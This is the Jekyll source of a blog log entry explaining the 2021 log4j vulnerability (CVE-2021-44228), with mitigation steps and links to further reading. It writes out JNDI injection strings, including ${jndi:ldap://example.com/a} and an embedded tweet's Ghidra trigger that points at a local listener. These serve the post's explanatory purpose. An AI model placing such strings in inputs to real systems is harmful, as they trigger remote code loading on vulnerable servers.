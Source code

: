 ```yaml
---
layout: post
title: "Entry 2"
date: 2021-12-10
permalink: /logs/entry-2
---
```

Yesterday, a high severity vulnerability{% sidenote 1 "[CVE-2021-44228](https://wiki2.org/en/Log4j){:target='_blank'}{:rel='noopener noreferrer'}" %} was discovered in the popular Java logging library log4j{% sidenote 2 "[Apache Log4j](https://wiki2.org/en/Log4j){:target='_blank'}{:rel='noopener noreferrer'}" %} that could lead to remote code execution (RCE).

{% newthought 'A few notes' %} about vulnerability
The log4j package uses JNDI{% sidenote 3 "[Java Naming and Directory Interface](https://wiki2.org/en/Java_Naming_and_Directory_Interface){:target='_blank'}{:rel='noopener noreferrer'}" %}. It is a standard API for directory service that allows a Java program to find data (in the form of a Java object) through a directory.

A Java program can use JNDI and LDAP together to find a Java object containing data that it might need. For example, in the standard Java documentation there’s an [example](https://docs.oracle.com/javase/jndi/tutorial/getStarted/examples/directory.html){:target='_blank'}{:rel='noopener noreferrer'} that talks to an LDAP server to retrieve attributes from an object. It uses the URL `ldap://localhost:389/o=JNDITutorial` to find the JNDITutorial object from an LDAP server running on the same machine (localhost) on port 389 and goes on to read attributes from it.

As the tutorial says _“If your LDAP server is located on another machine or is using another port, then you need to edit the LDAP URL”_. Thus the LDAP server could be running on a different machine and potentially anywhere on the Internet. That flexibility means that if an attacker could control the LDAP URL they’d be able to cause a Java program to load an object from a server under their control.

But in the case of log4j an attacker can control the LDAP URL by causing log4j to try to write a string like ${jndi:ldap://example.com/a}. If that happens then log4j will connect to the LDAP server at example.com and retrieve the object.

This happens because log4j contains [special syntax](https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution){:target='_blank'}{:rel='noopener noreferrer'} in the form ${prefix:name} where prefix is one of a number of different [Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html){:target='_blank'}{:rel='noopener noreferrer'} where name should be evaluated. For example, ${java:version} is the current running version of Java.

{% newthought 'Impact' %}
Many services are vulnerable to this exploit. Cloud services like Steam, Apple iCloud, and apps like Minecraft have already been found to be vulnerable.

Ghidra's vulnerable too:

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">Ghidra&#39;s vulnerable to log4j:<br>__attribute__((__section__(&quot;.note.${jndi:ldap://127.0.0.1:1234/abc}&quot;)))<br>int a = 1;<br>int main(){}<br>$ gcc hello.c<br>$ nc -l 1234<br>Load into Ghidra; it connects to 127.0.0.1:1234.<br>Ghidra 10.0.2, macOS OpenJDK Corretto 11.0.4.11.1<a href="https://t.co/Qu1psCjtY6">https://t.co/Qu1psCjtY6</a></p>&mdash; Zhuowei Zhang (@zhuowei) <a href="https://twitter.com/zhuowei/status/1469186818549719042?ref_src=twsrc%5Etfw">December 10, 2021</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

The underlying truth behind all of this is:

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">The lesson of Java is that some of the best engineers at the time created a secure byte-code VM and JIT, only for Design-By-Committee to come in and say &quot;maybe someone would want the Logger to load remote code via JNDI and LDAP. Let&#39;s add that!&quot;.</p>&mdash; postmodern (@postmodern_mod3) <a href="https://twitter.com/postmodern_mod3/status/1469401307005939712?ref_src=twsrc%5Etfw">December 10, 2021</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

{% newthought 'Mitigation' %}

1. Upgrading to [new version](https://logging.apache.org/log4j/2.x/download.html){:target='_blank'}{:rel='noopener noreferrer'}.
2. If you can't upgrade, set the property:

% highlight %}
log4j2.formatMsgNoLookups=true
{% endhighlight %}

3. If none of the above works, you can remove the `JndiLookup` class from the classpath:
{% highlight %}
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
{% endhighlight %}
This command will remove the class from the log4j-core.

{% newthought 'Keypoints' %}

And the gist of it comes down to:

{% maincolumn 'https://imgs.xkcd.com/comics/dependency.png' '<em>Dependency</em>', from [xkcd](https://xkcd.com/2347/){:target="_blank"}{:rel="noopener noreferrer"} %}

----

{% newthought 'Further Information' %}

- [0] [https://www.lunasec.io/docs/blog/log4j-zero-day/](https://www.lunasec.io/docs/blog/log4j-zero-day/){:target='_blank'}{:rel='noopener noreferrer'}
- [1] [https://news.ycombinator.com/item?id=29504755](https://news.ycombinator.com/item?id=29504755){:target='_blank'}{:rel='noopener noreferrer'}
- [2] [https://www-cnblogs-com.translate.goog/yyhuni/p/15088134.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en-US](https://www-cnblogs-com.translate.goog/yyhuni/p/15088134.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en-US){:target='_blank'}{:rel='noopener noreferrer'}
- [3] [https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/](https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/){:target='_blank'}{:rel='noopener noreferrer'}
- [4] [https://blog.cloudflare.com/cve-2021-44228-log4j-rce-0-day-mitigation/](https://blog.cloudflare.com/cve-2021-44228-log4j-rce-0-day-mitigation/){:target='_blank'}{:rel='noopener noreferrer'}
- [5] [https://github.com/tangxiaofeng7/apache-log4j-poc](https://github.com/tangxiaofeng7/apache-log4j-poc){:target='_blank'}{:rel='noopener noreferrer'}
- [6] [https://github.com/YfryTchsGD/Log4jAttackSurface](https://github.com/YfryTchsGD/Log4jAttackSurface){:target='_blank'}{:rel='noopener noreferrer'}
- [7] [https://www.veracode.com/blog/research/exploiting-jndi-injections-java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java){:target='_blank'}{:rel='noopener noreferrer'}




 